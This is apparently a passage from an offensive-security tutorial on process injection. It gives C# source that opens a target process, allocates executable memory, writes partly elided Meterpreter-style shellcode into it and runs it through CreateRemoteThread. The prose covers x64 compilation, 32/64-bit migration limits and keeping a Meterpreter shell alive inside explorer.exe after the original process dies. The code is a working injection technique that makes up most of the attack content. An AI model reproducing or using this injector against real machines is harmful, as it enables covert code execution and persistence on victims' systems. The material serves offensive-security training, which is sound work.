     using System;
    using System.Runtime.InteropServices;
    
    
    namespace Inject
    {
        class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
    
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    
            [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
            static void Main(string[] args)
            {
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
    
                byte[] buf = new byte[591] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                ....
                0x0a,0x41,0x89,0xda,0xff,0xd5 };
                            IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
    
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }


Before compiling the project, we need to remember to set the CPU architecture to x64 since we are injecting into a 64-bit process.

Note that 64-bit versions of Windows can run both 32 and 64-bit processes. This means that we could face four potential migration paths: 64-bit -> 64-bit, 64-bit -> 32-bit, 32-bit -> 32-bit and 32-bit -> 64-bit.

The first three paths will work as expected. However, the fourth (32-bit -> 64-bit) will fail since CreateRemoteThread does not support this.

One workaround (which is what advanced implants like Meterpreter do) is to execute the call directly in assembly. The technique involves performing a translation from 32-bit to 64-bit long mode inside the 32-bit process. 

After getting shell, The process ID indicates that the Meterpreter shell is indeed running inside explorer.exe.

We will be able to launch our Meterpreter shellcode directly inside explorer.exe, which means that even if the original process is killed, the shell will live on.
